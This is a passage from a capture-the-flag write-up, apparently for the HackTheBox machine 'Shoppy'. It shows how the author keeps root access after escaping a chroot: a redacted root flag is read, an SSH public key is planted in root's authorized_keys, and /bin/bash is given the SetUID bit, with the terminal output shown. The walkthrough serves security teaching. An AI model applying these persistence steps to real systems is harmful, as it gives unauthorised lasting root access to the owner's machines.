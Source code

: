 ```

# cat /root/root.txt
5c6e2d67************************

```

### Shell

#### SSH

The simplest way to get a shell as root is to drop my public SSH key into an `authorized_keys` file for root:

```

# mkdir /root/.ssh
# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys 
# chmod 600 /root/.ssh/authorized_keys

```

Now I can connect with SSH:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@shoppy.htb
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@shoppy:~#

```

#### SUID bash

A perhaps quieter way is to make `bash` SetUID:

```

# chmod 4777 /bin/bash

```

Because I’m working from the `chroot` file system, that `bash` is on the host. Exiting the container, I can verify it worked because the first `x` is now `s`:

```

deploy@shoppy:~$ ls -l /bin/bash
-rwsrwxrwx 1 root root 1234376 Mar 27  2022 /bin/bash

```
